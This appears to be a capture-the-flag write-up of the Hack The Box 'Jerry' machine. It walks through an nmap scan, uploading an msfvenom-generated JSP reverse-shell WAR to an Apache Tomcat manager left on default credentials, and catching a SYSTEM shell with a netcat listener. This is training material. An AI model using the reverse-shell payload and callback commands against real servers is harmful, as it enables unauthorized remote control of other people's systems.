 # Jerry
Jerry is an Easy Windows machine, and is suggested practice for the OSCP Excam.

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -Pn 10.10.10.95
```
**Results**
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 10:11 BST
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.75 seconds
```
We can see from the above results that there is an Apache Tomcat service running on port 8080. 

### Web Server
We can visit the Apache Tomcat webserver on ```http://10.10.10.95:8080```.

From here we can confirm again that the version that is running is ```7.0.88``` and that it corresponds with the version of Tomcat Nmap returned.

We can click around the web panel 

## Foothold
### Payload
We can generate a ```war``` payload using ```msfvenom```.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=1234 -f war > shell.war
```
We can upload this to to the Tomcat Manager. Creat a listener so that we can catch the incoming connection:
```bash
user@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
```
Now browse to ```http://10.10.10.95:8080/shell```. The payload will run and we will recieve a connection into our listener.
```bash
user@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

We can check the contents of the current directory we are in using ```dir```.
```bash
C:\apache-tomcat-7.0.88>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\apache-tomcat-7.0.88

06/19/2018  04:07 AM    <DIR>          .
06/19/2018  04:07 AM    <DIR>          ..
06/19/2018  04:06 AM    <DIR>          bin
06/19/2018  06:47 AM    <DIR>          conf
06/19/2018  04:06 AM    <DIR>          lib
05/07/2018  02:16 PM            57,896 LICENSE
10/09/2020  07:04 AM    <DIR>          logs
05/07/2018  02:16 PM             1,275 NOTICE
05/07/2018  02:16 PM             9,600 RELEASE-NOTES
05/07/2018  02:16 PM            17,454 RUNNING.txt
06/19/2018  04:06 AM    <DIR>          temp
10/09/2020  08:34 PM    <DIR>          webapps
06/19/2018  04:34 AM    <DIR>          work
               4 File(s)         86,225 bytes
               9 Dir(s)  27,602,845,696 bytes free
```

### Flags
If we run ```whoami``` it turns out we're running as ```nt authority\system```. Not a very good idea to be running a vulnerable server as ```system```. 

We can now navigate to ```C:\Users\Administrator\Desktop\flags>``` and use ```type``` command to read the flag file. Both the user and root flags are in this file.

## What have we learned
##### Search
When hunting around for exploits, don't just look for ```Unauthenticated RCEs```. The Tomcat server was using default credentials that can we found in one of the status pages. Systems can be setup, but they might not be setup using best practices. Chaging the username and password from default would have prevented this.

##### msfvenom
This is a really cool tool. Having to creft payloads from scratch can be tiresome and without reason. Using msfvenom seriously speeds up the time and lowers the barrier for entry to get a foothold on the system.

## Further Reading
- Tomcat
- msfvenom
